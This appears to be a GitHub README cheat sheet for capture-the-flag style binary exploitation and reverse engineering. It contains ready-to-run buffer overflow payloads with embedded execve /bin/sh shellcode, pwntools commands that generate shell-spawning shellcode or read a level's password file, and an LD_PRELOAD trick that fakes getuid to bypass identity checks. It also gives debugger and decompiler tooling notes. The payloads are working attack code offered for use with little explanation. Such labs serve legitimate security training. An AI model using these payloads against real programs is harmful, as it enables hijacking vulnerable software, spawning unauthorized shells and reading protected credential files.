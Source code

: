 <picture>
    <source height="100px" srcset="https://user-images.githubusercontent.com/22857002/173634301-11eb983d-29a7-4efb-9be3-ab2179eab6b7.svg#gh-dark-mode-only" media="(prefers-color-scheme: dark)">
    <img height="100px" src="https://user-images.githubusercontent.com/28403617/172731874-c08c9da6-bac7-4836-b8bc-3744087d30a3.svg#gh-light-mode-only">
</picture>

---

- [Binary ninja](#binary-ninja)
- [Decompile Python Executable](#decompile-python-executable)
- [GCC](#gcc)
- [Lib Injection](#lib-injection)
- [Macro Office PPTM](#macro-office-pptm)
- [OverFlow](#overflow)
- [Shellcode](#shellcode)

# Overflow
### Basic
```bash
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
```bash
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

# Shellcode
### Cat
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

### Exec sh 1
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

# GDB
### Variables
| Variable | What is ?             |
|----------|-----------------------|
| EIP      | Next Instruction      |
| RDI      | First Arg of Function |
| RSI      | Second Arg            |
| RCX      | Third Arg             |

### Print
```
x/s "string"
x/x 0xff
```

### Get env address
```
x/10s **(char***)&environ
```
## Peda
### Install
```bash
git clone https://github.com/longld/peda.git ~/.peda
echo "source ~/.peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

# Binary ninja
### Scrap code from html

```javascript
let result = '';
[...document.querySelectorAll('.LinearDisassemblyLine')].forEach(parent_elmt => {
  [...parent_elmt.children].forEach(children_elmt => {
    result += children_elmt.textContent
  });
  result +=  '\n'
});
console.log(result);
```

# Lib Injection
- Recreate getuid function
```C
uid_t	getuid(void)
{
	return (4242);
}
```
- compile
```bash
gcc -shared -fpic lib.c -o libnike.so -m32
```
- run and inject
```bash
LD_PRELOAD=./libnike.so ./exec
```

# Decompile Python Executable
Convert executable into .pyc
```bash
git clone https://github.com/extremecoders-re/pyinstxtractor
cd pyinstxtractor
python3 pyinstxtractor.py exec
```

Disassembly .pyc (compatible python 3.9.2)
```bash
git clone https://github.com/zrax/pycdc
cd pycdc
cmake
make
./pycdc file.pyc # Convert .pyc into .py
./pycdas file.pyc # Convert .pyc into byte-code disassembly
```

# Macro Office PPTM
### Install
```bash
sudo pip3 install oletools
```

### Decompress PPTM
```bash
olevba  -c file.pptm
```
